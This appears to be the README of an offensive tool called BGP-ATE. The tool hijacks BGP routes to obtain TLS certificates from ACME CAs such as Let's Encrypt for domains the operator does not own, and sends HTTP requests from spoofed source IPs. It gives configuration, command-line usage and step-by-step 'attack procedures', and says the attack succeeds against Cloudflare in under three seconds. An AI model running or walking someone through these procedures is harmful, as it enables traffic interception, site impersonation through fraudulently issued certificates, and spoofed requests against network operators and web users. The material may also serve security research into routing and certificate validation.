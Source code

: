 # BGP-ATE

BGP-ATE is a tool for BGP route hijacking and certificate generation.

## Features

- BGP route hijacking
- Certificate generation with route hijacking
- HTTP requests with source IP spoofing
- Support for both IPv4 and IPv6
- RPKI validation
- Community attribute support
- Dry run mode for testing

## Prerequisites

- Go 1.21 or later
- GoBGP v3.37.0 or later
- GoBGP daemon running on localhost:50051
- Root privileges for iphelper command

## Installation

1. Install GoBGP:
```bash
# Make the setup script executable
chmod +x setup.sh

# Run the setup script
./setup.sh

# Add gobgpbin to your PATH (optional)
export PATH="$(pwd)/gobgpbin:$PATH"
```

2. Install the BGP control system:
```bash
go build
```

## Usage

1. Start the GoBGP daemon:
```bash
sudo gobgpbin/gobgpd -f gobgpd.conf
```
2. Run the control system:
```bash
./bgpate
```

## Configuration

The system uses `gobgpd.conf` for GoBGP configuration and `config.json` file for configuration. Here's an example:

```json
{
    "communities": ["large:18041:999:2"],
    "time": 10,
    "timeBeforeGeneratingCertificate": 5,
    "timeBeforeExecutingCurl": 0,
    "iphelperGatewayV4": "192.168.99.1",
    "iphelperGatewayV6": "2401:16a0:999::1",
    "caDirUrl": "https://acme-v02.api.letsencrypt.org/directory",
    "eabKid": "",
    "eabHmacKey": ""
}
```

### Configuration Options

- `communities`: List of BGP communities (standard or large format)
  - Standard format: `"AS:value"` (e.g., `"65000:123"`)
  - Large format: `"large:AS:value1:value2"` (e.g., `"large:18041:999:2"`)
- `time`: Time in seconds to wait after hijacking
- `timeBeforeGeneratingCertificate`: Time in seconds to wait before generating certificate
- `timeBeforeExecutingCurl`: Time in seconds to wait before executing curl request
- `iphelperGatewayV4`: IPv4 Gateway IP for iphelper command
- `iphelperGatewayV6`: IPv6 Gateway IP for iphelper command
- `caDirUrl`: ACME CA directory URL (optional, defaults to Let's Encrypt production)
- `eabKid`: External Account Binding Key ID (optional)
- `eabHmacKey`: External Account Binding HMAC Key (optional)

### CA Directory URLs

The `caDirUrl` field supports different ACME CA servers:

1. Let's Encrypt Production:
```json
"caDirUrl": "https://acme-v02.api.letsencrypt.org/directory"
```

2. Buypass:
```json
"caDirUrl": "https://api.buypass.com/acme/directory"
```

3. Google Public CA
```json
"caDirUrl": "https://dv.acme-v02.api.pki.goog/directory"
```
use `gcloud publicca external-account-keys create` to generate eabKid & eabHmacKey.

4. ZeroSSL
```json
"caDirUrl": "https://acme.zerossl.com/v2/DV90"
```

If `caDirUrl` is not specified, the tool will use Let's Encrypt's production server by default.

## Usage

### Building
```bash
go build
```

### Clear Routes
```bash
./bgpate clear
```

### Hijack Routes
```bash
./bgpate hijack <ip> [--dryrun]
```

### Generate Certificate
```bash
./bgpate certgen <domain> [--dryrun] [--ip <ip1,ip2,...>]
```

### IP Helper
```bash
./bgpate iphelper <ip> [-d]
```

### Make Curl Request
```bash
./bgpate curl <source_ip> <url> [--dryrun] [curl arguments...]
```

## Full BGP Hijack Attack Procedures

1. Run 
```bash
./bgpate iphelper <ip>
```

2. 
```bash
./bgpate hijack <ip>
```

3. Run curl to confirm the hijacking is success
```
curl --interface <ip> https://1.1.1.1/cdn-cgi/trace
```

4. Remove IP configuration on the system
```bash
./bgpate iphelper <ip> -d
```

## Full Certification Generating Attack Procedures

### Use domain resolution (original behavior)
```bash
./bgpate certgen example.com
```

### Override with specific IPs (comma-separated)
```bash
./bgpate certgen example.com --ip 192.168.1.1,2001:db8::1
```

It will generate key-pair under `certs` folder

## HTTP Reuqest from any IP with fast hijacking
```bash
./bgpate curl <ip> 'https://1.1.1.1/cdn-cgi/trace' [Other curl arguments]
```

The attack succeed within less than 3 second against Cloudflare.

## Notes

- The tool will automatically clean up routes when interrupted (Ctrl+C)
- For certificate generation, make sure port 80 is available for HTTP-01 challenge
- When using EAB, both `eabKid` and `eabHmacKey` must be provided

